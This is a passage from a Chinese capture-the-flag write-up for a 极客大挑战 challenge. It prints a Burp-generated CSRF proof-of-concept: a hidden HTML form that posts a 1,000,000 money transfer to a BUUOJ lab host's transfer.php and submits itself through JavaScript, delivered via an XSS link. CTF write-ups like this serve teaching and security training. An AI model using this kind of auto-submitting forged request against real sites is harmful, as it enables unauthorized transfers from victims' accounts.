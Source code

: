 这里抓包

![image-20210224224759668](极客大挑战/image-20210224224759668.png)

是post的请求,不能直接在url中构造csrf,得利用javascript提交我们的poc,先用burp生成poc,

然后加一点JavaScript让他自动提交

```html
ction="http://60f43ecd-62a6-477c-99c0-ae67e9e12ad6.node3.buuoj.cn/transfer.php" method="POST" enctype="multipart/form-data" name="csrf">
      <input type="hidden" name="target" value="Pp1ove" />
      <input type="hidden" name="money" value="1000000" />
      <input type="hidden" name="messages" value="123" />
      <input type="submit" value="Submit request" />
    </form>
<script>
document.forms[0].submit();
</script>
  </body>
</html>

```

准备使用报告模块发送我们的xss链接:
